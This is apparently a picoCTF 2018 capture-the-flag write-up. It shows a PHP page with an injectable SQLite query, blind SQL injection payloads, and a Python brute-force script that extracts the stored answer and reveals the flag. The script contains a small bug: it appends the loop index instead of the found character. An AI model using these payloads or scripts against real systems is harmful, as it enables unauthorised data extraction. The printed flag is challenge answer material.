 # A Simple Question

>There is a website running at http://2018shell1.picoctf.com:2644 (link).
>Try to see if you can answer its question. 

### [~$ cd ..](../)

We are expected to answer the question "What is the answer?". What a broad issue!

![site](site.png)

We quickly saw where was the problem by sending only a single quote:

![inject](inject.png)

By looking at the HTML source code, we found that we could have the PHP source by reading `answer2.phps`:

> ```php
><?php
>	include "config.php";
>	ini_set('error_reporting', E_ALL);
>	ini_set('display_errors', 'On');
>
>	$answer = $_POST["answer"];
>	$debug = $_POST["debug"];
>	$query = "SELECT * FROM answers WHERE answer='$answer'";
>	echo "<pre>";
>	echo "SQL query: ", htmlspecialchars($query), "\n";
>	echo "</pre>";
>?>
><?php
>	$con = new SQLite3($database_file);
>	$result = $con->query($query);
>
>	$row = $result->fetchArray();
>	if($answer == $CANARY)  {
>		echo "<h1>Perfect!</h1>";
>		echo "<p>Your flag is: $FLAG</p>";
>	}
>	elseif ($row) {
>		echo "<h1>You are so close.</h1>";
>	} else {
>		echo "<h1>Wrong.</h1>";
>	}
>?>
> ```

We can see here that if the query returns an empty set, "Wrong" is displayed. In case of failure, the error is shown, and if the query returns more than one row,
we get a "You are so close".

Let's try with a smarter payload: **' or (select count(*) from answers) > 0 or '"**

![close](close.png)

and with: **' or (select count(*) from answers) > 1 or '"**

![wrong](wrong.png)

Okay, then there is only one row.

We first tried to determine the length of the string to extract by testing multiple values for `x`: **' or (select length(answer) from answers) =x  or '**, and found that
the password is a 14-letters word.

The extraction script will send **' or (select substr(answer,x,1) from answers) = char(y) or '**, by iterating from 1 to 14 for `x` and from 1 to 255 for `y`.

> ```python
>import requests
>
>def brute(i):
>	for x in xrange(1,255):
>		params = {"answer": "' or (select substr(answer,"+str(i)+",1) from answers) = char("+str(x)+") or '", "debug":"0"}
>		r = requests.post("http://2018shell1.picoctf.com:2644/answer2.php", data=params)
>		if "You are so close" in r.text:
>			print x
>			return x
>		elif "Warning" in r.text:
>			print r.text
>			return 0
>i = 1
>extract = ''
>while i <15:
>	char = brute(i)
>	if char == 0:
>		print extract
>		break
>	extract += chr(i)
>	i+=1
> ```

Returned values are: **52,49,65,110,100,83,105,120,83,105,120,116,104,115**, which gives us: 

> ```python
>print "".join(chr(x) for x in [52,49,65,110,100,83,105,120,83,105,120,116,104,115])
>41AndSixSixths
> ```

By sending this answer back to the server, we got as answer:

> ```
>Perfect!
>
>Your flag is: picoCTF{qu3stions_ar3_h4rd_28fc1206}
> ```

